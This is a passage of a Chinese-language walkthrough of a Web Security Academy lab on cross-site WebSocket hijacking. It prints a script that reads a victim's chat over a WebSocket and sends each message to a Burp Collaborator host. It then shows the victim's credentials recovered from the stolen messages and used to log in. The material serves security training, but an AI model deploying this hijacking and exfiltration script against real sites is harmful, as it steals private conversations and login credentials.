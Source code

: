 我的是：
&lt;script&gt;
    var ws = new WebSocket('wss://0a390011034ce37ac4128868009b005e.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://bhwr3j502kct2ljwwrtofzi68xeo2d.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
&lt;/script&gt;</code></pre>
将自己的网络套接字url替换为网络套接字握手中的URL（实验室ID）。确保将协议从https://更改为wss://。用Burp Collaborator客户端生成的有效负载替换your-collaborator-url

<pre>`bhwr3j502kct2ljwwrtofzi68xeo2d.oastify.com`</pre>




单击“查看漏洞利用”（view）


 在Collaborator选项卡中轮询交互。验证攻击是否已成功检索您的聊天历史记录并通过Burp Collaborator将其泄露
对于聊天中的每一条消息，Burp Collaborator都接收到一个HTTP请求。请求正文包含JSON格式的聊天消息的全部内容（这些消息的接收顺序可能不正确）

 检查这些消息，其中一条消息包含受害者的用户名和密码
<pre><code>carlos
i0h9n4jqwxg3qeqxbfzy</code></pre>

<hr/>
part3：
使用溢出的凭据登录受攻击用户的帐户
完成实验




---

